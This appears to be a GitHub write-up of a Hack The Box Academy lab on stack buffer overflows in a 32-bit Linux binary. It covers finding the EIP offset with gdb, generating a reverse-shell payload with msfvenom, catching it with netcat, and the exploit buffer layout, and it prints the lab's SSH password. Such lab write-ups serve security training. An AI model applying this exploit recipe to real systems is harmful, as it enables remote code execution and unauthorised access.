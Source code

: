 # skills-assesment---STACK-BASED-BUFFER-OVERFLOWS-ON-LINUX-X86

![Screenshot 2022-06-10 at 23 19 07](https://user-images.githubusercontent.com/86610861/173449233-bd3ae29c-2786-412f-b4f7-6c2e847b76f2.png)

## Questions:

![6f6dbd3e-83f8-455e-84c3-1eadb281d27c](https://user-images.githubusercontent.com/86610861/173449318-93658307-b08d-4bc1-83cb-b54cc211b3a7.png)


## This writeup contains following chapters:
setup
file type of "leave_msg"
reach EIP
overwrite EIP and determine stack space size
read file "/root/flag.txt"

Setup

![Screenshot 2022-06-11 at 16 27 40](https://user-images.githubusercontent.com/86610861/173449468-f0b82bce-dcea-43f2-a021-29cb99b6e2fb.png)

Spawn the target system and get vpn key. after vpn is downloaded open it with
sudo openvpn academy.ovpn
Note: you must have vpn opened and running, otherwise you won't be able to ssh to with user "htb-student".
Open new terminal window and ssh to user "htb-student" type the following
ssh htb-student@{your target ip}
Then it will ask you for your password in which you should type 
HTB_@cademy_stdnt!
Now you are all set to start answering questions.
File type of "leave_msg"
Find out file type of leave_msg binary with file command.

![Screenshot 2022-06-11 at 16 13 05](https://user-images.githubusercontent.com/86610861/173453157-4961e549-3950-4d84-9313-f0fe35992ad1.png)

file command is linux command which determines file's type depending on what the file contains
Here we have the answer: ELF 32-bit file type

![Screenshot 2022-06-11 at 16 23 15](https://user-images.githubusercontent.com/86610861/173453098-03243645-4a43-43f9-bcce-a0f01420d978.png)


Reach EIP
Now we have to reach EIP.
open new terminal window and that is not connected to ssh server.
we have to create a unique pattern using Metasploit.
i wanted to create pattern that is long so that it would most likely cause segmentation fault.
![Screenshot 2022-06-11 at 17 00 24](https://user-images.githubusercontent.com/86610861/173449944-55355432-4f6d-4a32-999e-6a5cf7d09325.png)

pattern is created and now we have to open "leave_msg" with gdb with a terminal in which we are connected to ssh. type following:
gdb leave_msg
then we have to run the pattern to cause segmentation fault and check registers for eip address.
Run pattern:
run $(python -c 'print "{your unique pattern}"')
Check info registers:

![Screenshot 2022-06-11 at 17 14 48](https://user-images.githubusercontent.com/86610861/173449904-7d10ed5d-e36d-4625-b87e-672170773ad6.png)

notice the address next to eip register. copy that and then we find exact offset depending on EIP value. open the terminal in which we are NOT connected to ssh and type following.

![Screenshot 2022-06-11 at 17 11 07](https://user-images.githubusercontent.com/86610861/173451722-50c7d4aa-45fd-43f1-b535-a1759884624d.png)

Here it returns exact offset.

![Screenshot 2022-06-11 at 16 24 22](https://user-images.githubusercontent.com/86610861/173455512-ea791b23-4862-49ee-a24f-641cb5112ea5.png)

but if we want to overwrite EIP then we have to send 2064 bytes.
Overwrite EIP and determine stack space size
In ssh terminal type info proc all

![Screenshot 2022-06-11 at 17 19 52](https://user-images.githubusercontent.com/86610861/173452066-6593098c-57ec-4ae1-bc09-d17ff7d9186c.png)

info proc command shows the file descriptors opened by the processbefore [stack] in size field you can see 0x22000.



that's the answer we are looking for.

![Screenshot 2022-06-11 at 16 24 45](https://user-images.githubusercontent.com/86610861/173452720-507f9c93-3b72-4458-b4f4-1a3f82b6639c.png)


Read file "/root/flag.txt"
chapters :
generate shellcode
setup netcat listener
run exploit

Generate shellcode
MSFvenom - standalone payload generator

![Screenshot 2022-06-13 at 17 28 48](https://user-images.githubusercontent.com/86610861/173449802-e82c9ea8-9571-4f12-92bd-c85b5379adb8.png)

syntax - msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
  
  ![Screenshot 2022-06-13 at 17 29 07](https://user-images.githubusercontent.com/86610861/173455702-1b5335a9-a686-4253-95bf-e17f9efc8ec4.png)
  
  Setup netcat listener
note: setup netcat listener in ssh.
  
  ![Screenshot 2022-06-13 at 18 42 18](https://user-images.githubusercontent.com/86610861/173458599-dc05ae8c-48bf-4293-a7b7-acf6eeaeb8b6.png)
  
run exploit
note: run exploit IN SSH,  OUTSIDE GDB
Buffer = "\x55" * (2064 - 124 - 95 - 4) - 1841 bytes
     NOPs = "\x90" * 124 - 124bytes
Shellcode = "{your shellcode}" - 95bytes
      EIP = "\x2c\xd7\xff\xff" - 4bytes
  
  ![Screenshot 2022-06-13 at 17 19 11](https://user-images.githubusercontent.com/86610861/173458718-f6024397-c983-4a24-9345-74753afe122d.png)

  
  
after running our exploit we get a message connection received.type id to make sure you have a shell.
if we have shell we will get information about user. after that type in command to get a flag:
cat /root/flag.txt
  
![Screenshot 2022-06-13 at 17 18 48](https://user-images.githubusercontent.com/86610861/173449651-cf32e153-677e-4720-babb-d8f446944d6c.png)
  
  ![Screenshot 2022-06-13 at 16 28 01](https://user-images.githubusercontent.com/86610861/173458749-ed2ac1fb-e1f1-46bf-afee-a12ba6bb1cf1.png)

  
